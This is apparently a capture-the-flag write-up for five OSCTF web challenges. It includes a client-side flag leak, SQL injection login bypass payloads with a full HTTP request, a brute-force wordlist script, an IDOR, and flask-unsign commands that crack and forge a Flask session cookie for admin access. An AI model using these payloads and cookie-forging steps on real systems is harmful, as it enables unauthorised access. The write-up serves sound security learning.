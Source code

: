 # OSCTF

## Introspection

Welcome to the Secret Agents Portal. Find the flag hidden in the secrets of the Universe!!!

Author: @5h1kh4r

Blackbox challenge, we are given the following page:

![1720868397495](image/writeup/1720868397495.png)

Turning Burpsuite on we dont catch nothign meaning that the request is made only in the frontend, openning the inspect code we catch the flag in the script.js:

![1720868460804](image/writeup/1720868460804.png)

Flag: OSCTF{Cr4zY_In5P3c71On}

## Style Query Listing...?

pfft.. Listen, I've gained access to this login portal but I'm not able to log in. The admins are surely hiding something from the public, but... I don't understand what. Here take the link and be quiet, don't share it with anyone

Author: @5h1kh4r

Another blackbox challenge, we have a login form to work on:

![1720868578224](image/writeup/1720868578224.png)

The title of the page says "SQL injection challenge"

```http
POST /login HTTP/1.1
Host: 34.16.207.52:3635
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.16.207.52:3635/
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://34.16.207.52:3635
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

username=' OR 1=1 ; -- &password=asd

```

Ĩf we try a simple sql injection in the username we get access to the profile page:

![1720868739799](image/writeup/1720868739799.png)

Lets try to make a union select:

![1720868849835](image/writeup/1720868849835.png)

It seems like the debugger of the python app is on, we can actually see the query made and more information about the source code:

![1720869103830](image/writeup/1720869103830.png)

query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

Our focus in getting admin and go to admin endpoint.

So the username should be admin and we should inject the sql injection on the password so it gives us not the first entry of the table but the first entry where the username is admin:

Payload: `username=admin&password=' OR 1=1 ; --`

![1720869223223](image/writeup/1720869223223.png)

Flag: OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}

## Heads or Tails?

I was playing cricket yesterday with my friends and my flipped a coin. I lost the toss even though I got the lucky heads.

Author: @5h1kh4r

The hint: Try making a custom directory/file bruteforcing list that is made in the following format: (http_request_methods)-(words_related_to_ctf)

Another blackbox challenge where we get a clean html:

![1720869399564](image/writeup/1720869399564.png)

from the response it uses python: Server: Werkzeug/3.0.3 Python/3.8.19

It has three methods: Options, GET and HEAD:

![1720869610477](image/writeup/1720869610477.png)

Ideveloped the following script to create a wordlist with some words, the http methods and extensions:

```py
words = open("words.txt", "r")
list_words = [word.strip() for word in words.readlines()]

methods = open("methods.txt", "r")
list_methods = [method.strip() for method in methods.readlines()]

extensions = open("/home/w0rth/SecLists/Discovery/Web-Content/web-extensions.txt", "r")
list_extentions = [extension.strip() for extension in extensions.readlines()]

wordlist = open("wordlist.txt", "w+")
for i in list_methods:
    for j in list_words:
        for k in list_extentions:
            wordlist.write(f"{i}-{j}{k}\n")

```

Words i have used:

```txt
cricket
friends
heads
tails
flipped
coin
toss
lost
lucky
head
tail
osctf
altered
security
app
login
admin
```

I forgot to add flag to the words list, the endpoint that would be expect was /get-flag and the http method should be HEAD.

![1720897816354](image/writeup/1720897816354.png)

Flag: OSCTF{Und3Rr47Ed_H3aD_M3Th0D}

## Indoor WebApp 

The production of this application has been completely indoor so that no corona virus spreads, but that's an old talk right?

Author: @5h1kh4r

Once we go to the link and press view profile we understand that the application is making a get request to: `http://34.16.207.52:2546/profile?user_id=1`

![1720883510283](image/writeup/1720883510283.png)

If we just put the number 2 instead of 1 we get another profile making this a IDOR vulnerability and flag!

![1720883458592](image/writeup/1720883458592.png)

Flag: OSCTF{1nd00r_M4dE_n0_5enS3}

## Action Notes

I have created this notes taking app so that I don't forget what I've studied

Author: @5h1kh4r

![1720883612055](image/writeup/1720883612055.png)

If we try to use jwt_tool we get an error, it seems like it does not have the algorithm in the headers:

![1720884028570](image/writeup/1720884028570.png)

Tried sql injection in both the register and the login.
Tried all the SSTI for python since the server is python.
XXS is not possible because no BOT.

I think the vulnerability is on the jwt token.
After sometime i cracked the jwt secret: `flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6InRlc3QyMTMifQ.ZpKirg.NeEcUdx51_beLfIjFVIdC60Jqj8"`
Then sign a cookie with username admin: `flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'`
After that we replace the cookie and call /admin endpoint.

![1720898066630](image/writeup/1720898066630.png)

Flag: OSCTF{Av0id_S1mpl3_P4ssw0rDs}